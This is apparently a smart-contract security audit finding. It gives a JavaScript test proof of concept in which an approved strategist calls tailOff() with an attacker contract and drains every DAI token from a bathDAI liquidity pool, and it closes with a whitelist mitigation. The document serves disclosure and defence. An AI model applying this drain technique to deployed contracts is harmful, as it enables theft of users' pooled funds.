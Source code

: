 ## Proof of Concept

```js
it("Strategist can drain any liquidity pool", async () => {
  // Approve strategist
  let strategist = accounts[1];
  await bathHouseInstance.approveStrategist(strategist);

  // Check balance left in bathDAI contract
  let balanceDAI = await DAIInstance.balanceOf(bathDAI.address);
  assert.equal(balanceDAI > 0, true);

  // Drain DAI from bathDAI contract using tailOff()
  // attackerContract contains with an empty UNIdump() function, compliant with IStrategistUtility
  await bathPairInstance.tailOff(
      bathDAI.address,
      DAIInstance.address,
      randomAddress,
      attackerContract.address,
      balanceDAI,
      0,
      0,
      {from: strategist}
  );

  // Check if all DAI drained from contract
  let final_balanceDAI = await DAIInstance.balanceOf(bathDAI.address);
  assert.equal(final_balanceDAI, 0);
});
```

## Recommended Mitigation Steps
Maintain a whitelist of external pools `tailOff()` can be used to send tokens to, and revert all other non-listed addresses.